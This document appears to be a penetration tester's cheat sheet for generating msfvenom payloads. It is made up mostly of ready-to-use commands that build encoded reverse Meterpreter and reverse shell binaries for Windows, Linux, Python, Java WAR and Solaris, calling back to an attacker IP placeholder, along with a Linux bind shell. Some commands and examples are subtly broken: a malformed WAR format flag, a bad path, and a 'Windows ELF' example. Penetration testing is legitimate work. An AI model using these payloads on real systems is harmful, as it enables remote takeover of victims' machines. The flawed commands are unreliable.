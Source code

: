 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems. One ting to note, is that these payloads can be used more than once, obviously. I would recommend not re-generating a payload each time you compromise a service on a target server. Use a naming convention, such as:

`OS`+`TYPE`+`PORT`.extension

For instance, a Linux ELF binary, Bind Shell, Binds to port 4567 would be, `LinBind4567.elf`. Windows ELF binary, Reverse Meterpreter, returns to port 5555 would be, `WinRevMeter5555.exe`. Keep these payloads readily available as time is of the essence. 

If you are working the Offensive Security PWK labs, make sure that you don't use Meterpreter when possible as [they do not condone it and it is not allowed in the exam.](https://support.offensive-security.com/#!oscp-exam-guide.mdhttps://support.offensive-security.com/#!oscp-exam-guide.md) Hey, if it's confusing - think about it this way, some people still buy vinyl records for nostalgia, I guess not adopting new tools and methods is their thing. 

## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Meterpreter Reverse
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
### Meterpreter Reverse
`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`
### Bind Shell Port 4567
`./msfvenom --platform=linux --payload=linux/x86/shell_bind_tcp -e x86/shikata_ga_nai -b '\x00' -f elf LPORT=4567 > LinBind4567.elf`
### Python Stand Alone CMD
This will create a file with the Python command to run from your remote shell.

`msfvenom -p cmd/unix/reverse_python LHOST=(ATTACKER IP ADDRESS) LPORT=(LOCAL PORT) -f raw > RevBind443.py` 

## JAVA TOMCAT
### .WAR File
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f shell.war`

## SunOS (Solaris)
### Elf File
`/msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`
